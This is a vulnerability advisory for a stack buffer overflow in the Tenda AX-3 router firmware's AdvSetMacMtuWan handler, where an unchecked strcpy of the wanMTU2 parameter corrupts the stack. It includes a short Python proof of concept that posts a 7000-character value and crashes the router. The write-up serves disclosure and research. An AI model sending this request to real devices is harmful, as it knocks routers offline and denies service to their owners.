


# Tenda Vulnerability

Vendor:Tenda

Product:AX-3

Version:v16.03.12.10_CN(https://www.tenda.com.cn/material/show/3238)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function fromAdvSetMacMtuWan, the wanMTU2 value is obtained from the HTTP request via v12 = websGetVar(wp, "wanMTU2", (char_t *)&unk_794DF) and then copied into the memory region at mac - 68 using strcpy(mac - 68, v12). Here, mac points inside the stack-allocated array WAN_ARGUMENT wan_set_param[2], and the target location mac - 68 corresponds to a fixed-size buffer within the first WAN_ARGUMENT structure. Since this buffer has limited capacity (significantly smaller than the maximum size of user-supplied input) and strcpy performs no length validation, providing an overly long wanMTU2 parameter allows an attacker to overflow the destination buffer. As a result, the copied data writes beyond the bounds of the intended field and corrupts adjacent stack memory inside wan_set_param, leading to a stack-based buffer overflow that can overwrite neighboring variables and potentially disrupt control data, ultimately causing a crash and resulting in a Denial of Service condition.

<div  align="center"></div>
<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

wanMTU2 = "A"*7000
data = {
"wanMTU2": wanMTU2
}

r = requests.post(url, data=data)
print(r.status_code, r.text)


```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>